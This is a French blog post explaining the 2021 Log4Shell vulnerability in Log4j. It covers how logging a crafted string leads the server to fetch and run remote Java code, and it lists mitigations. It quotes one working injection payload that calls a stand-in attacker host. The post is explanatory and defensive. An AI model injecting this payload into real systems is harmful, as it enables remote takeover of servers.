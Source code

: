 ```yaml
---
layout: post
title:  "Découverte d'une vulnérabilité critique dans log4j"
date:   2021-12-11 18:23:35 +0100
image:  '/images/blog/log4shell-explications/header.png'
tags:   [Cybersécurité]
---
```


Depuis hier, une **vulnérabilité 0-day** sur la plupart des serveurs Java est exploitée dans le monde entier via une faille dans Log4j. Twitter, Apple, Minecraft et même les voitures Tesla sont vulnérables.

Mini-article pour vous expliquer la faille la plus importante de 2021. 

<div class="gallery-box">
  <div class="gallery">
  <img src="/images/blog/log4shell-explications/1469719525671194626-FGVVMggWYAY81Mw.jpg" draggable="false">
  </div>
</div>

Vous vous souvenez de ShellShock ? Là c'est **100 fois pire**.

Baptisée Log4Shell, cette attaque permet d'obtenir un shell sur la machine de la victime en lui faisant simplement afficher une payload d'une vingtaine de caractères dans ses logs: `${jndi:ldap://attacker.com/a}`

Le vecteur d'injection est généralement très simple, il suffit de l'inclure dans un paramètre qui sera affiché dans les logs, par exemple à la place de l'adresse email dans la page de connexion.

On peut voir ici la vulnérabilité déclenchée sur la page de login Twitter : 

<div class="gallery-box">
  <div class="gallery">
  <img src="/images/blog/log4shell-explications/1469719531820093450-FGVw9U5XwAMTaaN.png" draggable="false">
  </div>
</div>

Au moment de gérer cette requête, le moteur Log4j interprète le ${...} comme un template, et essaie de **récupérer un fichier Java** à l'URL indiquée.

Ce fichier Java est ensuite exécuté et permet donc à l'attaquant de prendre complètement le contrôle du serveur.

Si vous utilisez Log4j en production (spoiler alert : c'est probablement le cas même si votre stack n'utilise pas Java), vous avez de grandes chances d'être vulnérables à cette vulnérabilité dont la sévérité CVSS est de 10.0, soit le maximum possible ! 

<div class="gallery-box">
  <div class="gallery">
  <img src="/images/blog/log4shell-explications/1469719537922846732-FGV2PgyWYAIM3Ey.png" draggable="false">
  </div>
</div>

La faille est activement exploitée dans la nature de manière massivement automatisée (notamment pour installer des ransomwares sur les serveurs), et il est nécessaire de prendre des mesures immédiates.

Heureusement, il est facile de se protéger, je vous fais une petite liste. 

<div class="gallery-box">
  <div class="gallery">
  <img src="/images/blog/log4shell-explications/1469719540095406083-FGV4bzoXwAkcFDl.jpg" draggable="false">
  </div>
</div>

- Installez le patch de sécurité 2.15.0 si vous utilisez Log4j dans votre code
- Utilisez les versions de JRE supérieures à 6u211, 7u201, 8u191, et 11.0.1 (qui désactivent la politique par défaut à l'origine du bug)
- Filtrez et surveillez les flux sortants de vos serveurs

Pour la prochaine fois, si vous voulez découvrir les vulnérabilités en direct histoire de pouvoir les corriger rapidement (et pas le lendemain via un de mes posts lol), je vous invite à suivre <a href="https://twitter.com/ANSSI_FR" target="_blank">@ANSSI_FR</a> et <a href="https://twitter.com/CERT_FR" target="_blank">@CERT_FR</a>.

Précision : utiliser une JRE à jour ne suffit pas pour être protégé, seulement contre la payload la plus courante. Merci <a href="https://twitter.com/gouttegd" target="_blank">@gouttegd</a> pour l'info ! 

<div class="gallery-box">
  <div class="gallery">
  <img src="/images/blog/log4shell-explications/1469732334324879364-FGWJxDfX0AYlK3x.jpg" draggable="false">
  </div>
</div>

